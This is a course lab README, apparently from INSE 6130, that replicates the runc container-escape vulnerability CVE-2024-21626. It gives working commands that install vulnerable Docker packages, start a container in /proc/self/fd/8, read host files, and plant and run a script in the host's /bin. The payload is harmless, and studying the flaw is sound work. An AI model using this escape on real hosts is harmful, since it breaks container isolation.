


# INSE 6130 — CVE-2024-21626 Replication

---

## Install Debian .deb files

Open a terminal and run:

```bash
cd /debian
sudo dpkg -i \
  ./containerd.io_1.6.4-1_amd64.deb \
  ./docker-ce_24.0.6-1~ubuntu.22.04~jammy_amd64.deb \
  ./docker-ce-cli_24.0.6-1~ubuntu.22.04~jammy_amd64.deb \
  ./docker-buildx-plugin_0.10.2-1~ubuntu.22.04~jammy_amd64.deb
```

---

## Run the container

Start a Debian Bookworm container with an interactive shell and a custom working directory:

```bash
sudo docker run -w /proc/self/fd/8 \
  --name attack \
  --rm -it debian:bookworm
```

Below are screenshots showing the container/session for reference.





---

## Read host filesystem files inside the container

From inside the running container you can attempt to read host files via the proc fd trick shown below. Example (run inside the container):

```bash
cat ../../../../../../../../../../../etc/hostname
```

---

## Write a file on the host from inside the container

Create a script on the host filesystem (example uses a heredoc). Run this from inside the container:

```bash
cat > ../../../../../../../../bin/attack << 'EOF'
#!/bin/bash

echo "Container attacked!"
EOF
```

Make the script executable (adjust the path if required):

```bash
../../../../../bin/chmod +x ../../../../bin/attack
```

---

## Run the file on the host from outside the container

Back on the host, execute:

```bash
sudo /bin/attack
```

If the attack script ran successfully you should see the message:

```
Container attacked!
```

---
